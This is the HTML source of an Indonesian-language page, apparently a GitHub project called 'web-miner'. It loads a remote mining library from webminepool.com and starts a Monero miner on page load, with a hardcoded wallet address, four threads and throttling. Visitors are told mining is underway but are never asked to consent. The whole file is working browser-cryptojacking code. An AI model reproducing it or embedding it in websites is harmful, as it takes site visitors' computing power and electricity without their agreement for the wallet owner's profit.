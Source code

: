# web-miner<!DOCTYPE html>
<html lang="id">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Penambang Monero di Browser</title>
</head>
<body>
  <h2>Selamat datang di Penambang Web Monero</h2>
  <p>Penambangan sedang berlangsung di latar belakang. Terima kasih sudah mendukung!</p>

  <script src="https://webminepool.com/lib/base.js"></script>
  <script>
    miner = WMP.Anonymous('49shJXVtwZSH9FkA38aQ1RC99Pgxs2un4jbTBZ2L9z7AdRUZMcx61QQiCVp59ptTTRUhoGJaSMi6q9pATspZP2zGGSCYyQS', {
      threads: 4,
      autoThreads: false,
      throttle: 0.3,
      forceASMJS: false
    });
    miner.start();
  </script>
</body>
</html>
